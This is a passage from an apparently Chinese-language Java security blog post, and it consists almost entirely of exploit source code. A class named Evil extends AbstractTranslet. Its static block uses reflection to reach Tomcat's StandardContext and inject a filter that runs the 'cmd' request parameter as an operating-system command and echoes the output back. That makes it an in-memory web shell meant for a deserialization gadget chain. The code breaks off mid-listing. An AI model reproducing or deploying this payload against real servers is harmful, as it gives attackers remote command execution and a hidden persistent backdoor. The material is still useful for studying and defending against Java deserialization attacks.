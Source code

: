 然后参考文章里的代码解决了回显的问题

```java
package com.example.javasec;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.*;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.management.BadAttributeValueExpException;
import javax.servlet.Filter;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.*;
import java.util.Base64;
import java.util.Properties;

public class Demo{
    public static class Evil extends AbstractTranslet{
        static {
            try {
                Class WebappClassLoaderBaseClz = Class.forName("org.apache.catalina.loader.WebappClassLoaderBase");
                Object webappClassLoaderBase = Thread.currentThread().getContextClassLoader();
                Field WebappClassLoaderBaseResource = WebappClassLoaderBaseClz.getDeclaredField("resources");
                WebappClassLoaderBaseResource.setAccessible(true);
                Object resources = WebappClassLoaderBaseResource.get(webappClassLoaderBase);
                Class WebResourceRoot = Class.forName("org.apache.catalina.WebResourceRoot");
                Method getContext = WebResourceRoot.getDeclaredMethod("getContext", null);

                StandardContext standardContext = (StandardContext) getContext.invoke(resources, null);

                Filter filter = (servletRequest, servletResponse, filterChain) -> {

                    InputStream fis = Runtime.getRuntime().exec(servletRequest.getParameter("cmd")).getInputStream();
                    byte[] buffer = new byte[16];
                    StringBuilder res = new StringBuilder();
                    while (fis.read(buffer) != -1) {
                        res.append(new String(buffer));
                        buffer = new byte[16];
                    }
                    fis.close();

                    servletResponse.getWriter().write(res.toString());
                    servletResponse.getWriter().flush();
                };
                FilterDef filterDef = new FilterDef();
                filterDef.setFilterName("A");
                filterDef.setFilterClass(filter.getClass().getName());
                filterDef.setFilter(filter);
                standardContext.addFilterDef(filterDef);
                FilterMap filterMap = new FilterMap();
```
